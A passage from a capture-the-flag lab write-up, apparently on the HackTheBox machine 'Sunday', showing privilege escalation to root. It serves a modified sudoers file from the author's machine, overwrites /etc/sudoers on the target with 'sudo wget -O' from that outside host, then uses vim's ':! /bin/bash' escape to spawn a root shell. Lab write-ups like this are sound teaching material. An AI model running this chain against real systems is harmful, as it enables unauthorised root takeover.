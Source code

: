 ```
# %users  localhost=/sbin/shutdown -h now
sammy ALL=(root) NOPASSWD: /usr/bin/wget
sunny ALL=(root) NOPASSWD: /root/troll
```

So we can take that, and change the NOPASSWD to 

```
sunny@sunday:/export/home/sammy$ which vim
/usr/bin/vim
```

/usr/bin/vim

So I add that in addition to the wget.

```
sammy ALL=(root) NOPASSWD: /usr/bin/vim
sammy ALL=(root) NOPASSWD: /usr/bin/wget
sunny ALL=(root) NOPASSWD: /root/troll
```

I don’t replace it, as if vim does not function properly, I’m screwed.

```
kali@kali:~/htb/Sunday$ sudo vim new_sudoers
kali@kali:~/htb/Sunday$ sudo python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

And then to download and replace:

```
sunny@sunday:/$ sudo wget -O /etc/sudoers http://10.10.14.69:8000/new_sudoers
--07:22:41--  http://10.10.14.69:8000/new_sudoers
           => `/etc/sudoers'
Connecting to 10.10.14.69:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 841 [application/octet-stream]

100%[===================================================================================================================>] 841           --.--K/s             

07:22:41 (95.70 MB/s) - `/etc/sudoers' saved [841/841]
```

-O file means that all information w-gotten will be truncated to that file. So we are essentially replacing the sudoers file.


And now we can use vim to get a root shell:

```
sunny@sunday:/$ sudo vim /etc/sudoers
```

And while in vim, we type this in the command line:

```
:! /bin/bash
root@sunday:/# whoami
root
root@sunday:/#
```
